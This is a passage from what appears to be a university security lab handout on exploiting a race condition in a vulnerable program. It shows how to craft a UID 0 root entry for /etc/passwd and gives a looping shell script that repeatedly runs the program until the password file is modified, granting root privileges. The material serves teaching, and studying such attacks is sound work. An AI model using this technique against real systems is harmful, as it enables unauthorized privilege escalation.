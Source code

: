 #### Create an password input text file for use in the attack

1. Generate a password. Use the `mkpasswd` command to generate a new password.
    ```bash
    $ mkpasswd
    Password: <Type a new password here>
    ```
2. Save the password that you generated. We will use this later for the `password_input.txt` file.

3. Create a new file called `password_input.txt`. In this new file enter the following. Except replace `yournetid_root` with your `netid` followed by `_root`. And replace the string `hashed_password` with the password you created in step 2 above.
    ```bash
    $ nano password_input.txt 
    ```
4.  Add the following text to the `password_input.txt` file. Remember to replace `yournetid_root` and `hashed_password`.
    ```
    yournetid_root:hashed_password:0:0::/root:/bin/zsh
    ```
5. Notice that this line looks suspiciously like the root user entry in the `/etc/passwd` file. It has a `UID` of 0, and a `GUID` of 0, which is the user id and group id of the root user. A user with this id will have __root privileges__ on the system. The goal of this lab is to trick the vulnerable program into inserting this string into the `/etc/passwd` file.
6. View the `/etc/passwd` file.
    ```bash
    $ cat /etc/passwd
    ```
7. What does each field between the `:` represent?

#### The target process shell script

We need a shell script that will continuously call the vulnerable program until the new entry has been added to the `/etc/passwd` file. The script will check the last modified timestamp of the file and will stop running the while loop when the last modified timestamp has changed. 

__target_process.sh__
```bash
#!/bin/bash

# Do a long list on the file to check the last modified date.
CHECK_FILE="ls -l /etc/passwd"

# Store the result of the check in a variable called old.
old=$($CHECK_FILE)

# Store the result of the check in a variable called old.
new=$($CHECK_FILE)

# Check to see if the /etc/passwd file was modified.
# If it was not modified continue to run the while loop.
while [ "$old" == "$new" ]
do
    # Run the vulnerable program.
    ./vulnerable /tmp/yournetid.txt < password_input.txt

    # Re-check to see if the password file was modified.
    new=$($CHECK_FILE)
done

# It worked!!!
echo "The password file has changed. Stopping..."
```
